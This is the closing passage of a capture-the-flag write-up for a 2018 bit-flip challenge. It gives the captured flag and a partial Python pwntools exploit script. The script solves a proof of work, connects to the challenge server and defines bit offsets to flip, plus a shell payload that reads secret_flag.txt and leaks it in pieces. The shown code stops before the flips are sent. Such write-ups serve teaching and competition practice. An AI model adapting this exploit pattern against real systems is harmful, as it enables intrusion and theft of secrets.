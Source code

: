    -------------------------------------------------------

   [+] Gottem!

Flag: `bitflip_madness`.

## Code

Code of the exploit:

```python  
#!/usr/bin/env python2

from __future__ import print_function  
from pwn import *  
from time import sleep  
import hashlib

def pow_hash(challenge, solution):  
   return hashlib.sha256(challenge.encode('ascii') +
p64(solution)).hexdigest()

def check_pow(challenge, n, solution):  
   h = pow_hash(challenge, solution)  
   return (int(h, 16) % (2**n)) == 0

def solve_pow(challenge, n):  
   candidate = 0  
   while not check_pow(challenge, n, candidate):  
       candidate += 1  
   return candidate

def connect_and_solve_pow():  
   conn = remote('61421a06.quals2018.oooverflow.io', 5566)  
   conn.recvuntil('Challenge: ')  
   c = conn.recvline().strip()  
   conn.recvuntil('n: ')  
   n = int(conn.recvline().strip())

   pow_progress = log.progress('Solving proof of work')  
   pow_progress.status('hang tight...')

   sol = solve_pow(c, n)  
   pow_progress.success('done (%d).', sol)  
   conn.sendline(str(sol))

   return conn

BITS_TO_FLIP = [  
   0x7f9*8 + 4,  
   0x7f9*8 + 7,  
   0x7fa*8 + 1  
]

PAYLOAD = """FLAG=$(cat secret_flag.txt)  
echo ${FLAG:0:5} >&2  
echo ${FLAG:5:5} >&2  
echo ${FLAG:10:5} >&2  
"""

r = connect_and_solve_pow()

log.info('Flipping bits: %s', ', '.join(map(hex, BITS_TO_FLIP)))  
r.recvuntil('introduce? ')

```